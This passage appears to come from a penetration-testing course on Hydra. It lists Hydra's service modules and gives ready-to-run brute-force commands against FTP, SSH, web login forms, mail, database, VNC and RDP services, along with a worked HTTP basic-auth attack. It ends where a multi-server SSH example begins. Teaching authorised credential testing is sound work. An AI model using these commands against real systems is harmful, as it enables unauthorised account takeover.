 ### Hydra Services

Hydra services essentially define the specific protocols or services that Hydra can target. They enable Hydra to interact with different authentication mechanisms used by various systems, applications, and network services. Each module is designed to understand a particular protocol's communication patterns and authentication requirements, allowing Hydra to send appropriate login requests and interpret the responses. Below is a table of commonly used services:

| Hydra Service | Service/Protocol | Description | Example Command |
| --- | --- | --- | --- |
| ftp | File Transfer Protocol (FTP) | Used to brute-force login credentials for FTP services, commonly used to transfer files over a network. | `hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100` |
| ssh | Secure Shell (SSH) | Targets SSH services to brute-force credentials, commonly used for secure remote login to systems. | `hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100` |
| http-get/post | HTTP Web Services | Used to brute-force login credentials for HTTP web login forms using either GET or POST requests. | `hydra -l admin -P /path/to/password_list.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"` |
| smtp | Simple Mail Transfer Protocol | Attacks email servers by brute-forcing login credentials for SMTP, commonly used to send emails. | `hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com` |
| pop3 | Post Office Protocol (POP3) | Targets email retrieval services to brute-force credentials for POP3 login. | `hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com` |
| imap | Internet Message Access Protocol | Used to brute-force credentials for IMAP services, which allow users to access their email remotely. | `hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com` |
| mysql | MySQL Database | Attempts to brute-force login credentials for MySQL databases. | `hydra -l root -P /path/to/password_list.txt mysql://192.168.1.100` |
| mssql | Microsoft SQL Server | Targets Microsoft SQL servers to brute-force database login credentials. | `hydra -l sa -P /path/to/password_list.txt mssql://192.168.1.100` |
| vnc | Virtual Network Computing (VNC) | Brute-forces VNC services, used for remote desktop access. | `hydra -P /path/to/password_list.txt vnc://192.168.1.100` |
| rdp | Remote Desktop Protocol (RDP) | Targets Microsoft RDP services for remote login brute-forcing. | `hydra -l admin -P /path/to/password_list.txt rdp://192.168.1.100` |

### Brute-Forcing HTTP Authentication

Imagine you're tasked with testing the security of a website using basic HTTP authentication at `www.example.com`. You have a list of potential usernames stored in `usernames.txt` and corresponding passwords in `passwords.txt`. To launch a brute-force attack against this HTTP service, use the following Hydra command:

Hydra

```shell-session
frank-106@htb[/htb]$ hydra -L usernames.txt -P passwords.txt www.example.com http-get
```

This command instructs Hydra to:

- Use the list of usernames from the `usernames.txt` file.
- Use the list of passwords from the `passwords.txt` file.
- Target the website `www.example.com`.
- Employ the `http-get` module to test the HTTP authentication.

Hydra will systematically try each username-password combination against the target website to discover a valid login.

### Targeting Multiple SSH Servers

Consider a situation where you have identified several servers that may be vulnerable to SSH brute-force attacks. You compile their IP addresses into a file named `targets.txt` and know that these servers might use the default username "root" and password "toor." To efficiently test all these servers simultaneously, use the following Hydra command:
